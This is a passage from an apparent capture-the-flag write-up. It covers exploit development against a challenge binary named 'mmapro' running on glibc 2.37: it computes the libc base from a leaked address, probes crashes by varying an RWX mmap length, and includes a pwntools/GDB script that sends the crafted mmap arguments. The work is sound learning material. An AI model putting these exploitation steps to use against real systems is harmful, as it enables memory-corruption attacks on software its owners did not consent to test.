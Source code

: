 - I subtracted `0xf37` from `__GI___mmap64+23` addr, since the page need to be 0x1000 aligned!!

<img src="https://camo.githubusercontent.com/2b040878ac3809631d79bfa1901bb0d8d62d6e5da2074b4e92bea8163487be9e/68747470733a2f2f6861636b6d642e696f2f5f75706c6f6164732f534a6e66644e595931672e706e67"> <br>

- After the syscall everything changed to nullbytes, so we can continue the program execution until the program crashes somewhere

- Eventually it crashed in `/sysdeps/unix/sysv/linux/msync.c:26`
- [https://elixir.bootlin.com/glibc/glibc-2.37/source/sysdeps/unix/sysv/linux/msync.c#L26](https://elixir.bootlin.com/glibc/glibc-2.37/source/sysdeps/unix/sysv/linux/msync.c#L26)
- This crash is not useful :( 
- Let's increment our `mmap(..,  size_t length, ...)` by 0x1000 and check the next crash

**0x2000 crashed in:**

- [https://elixir.bootlin.com/glibc/glibc-2.37/source/misc/tsearch.c#L695](https://elixir.bootlin.com/glibc/glibc-2.37/source/sysdeps/unix/sysv/linux/msync.c#L26)
- This code is also not useful, since it crashed in `add    byte ptr [rbx + 0x2b7701ff], al` instruction and we don't control anything from rbx and nothing interesting happens after that.


### AUTOMATING THE PROCESS

<img src="https://camo.githubusercontent.com/d1be2306ad11ec3583a80265c90b1ad3e18e4eccbef74de81e2806b942bd7403/68747470733a2f2f6861636b6d642e696f2f5f75706c6f6164732f42317157774e715931782e706e67"> <br>

- I wrote a small python script with the GDB api to print all these infos, so we can analyze our crash easily

```python
#!/usr/bin/env python3
from pwn import *
from termcolor import colored
import sys

elf = context.binary = ELF("mmapro_patched",checksec=False)
libc = ELF("libc.so.6",checksec=False)
ld = ELF("ld-2.37.so",checksec=False)
context.terminal = ["alacritty", "-e"]
context.log_level = "CRITICAL"

p = gdb.debug(context.binary.path,'c',api=True)

mmap_leak = u64(p.recv())
libc_base = mmap_leak - 1138464
the_mmap64_plus_23_itself = (libc_base + 0x115f37) - 0xf37

addr   = the_mmap64_plus_23_itself
length = int(sys.argv[1])
prot   = 0x7
flags  = 0x32
fd     = -1
offset = 0

payload = flat(
    addr,
    length,
    prot,
    flags,
    fd,
    offset
)
p.sendline(payload)

print(colored('-'*80,'magenta',attrs=["bold"]))
# 
print(colored(f"> size_t length: {hex(length)}","green",attrs=["bold"]))   
```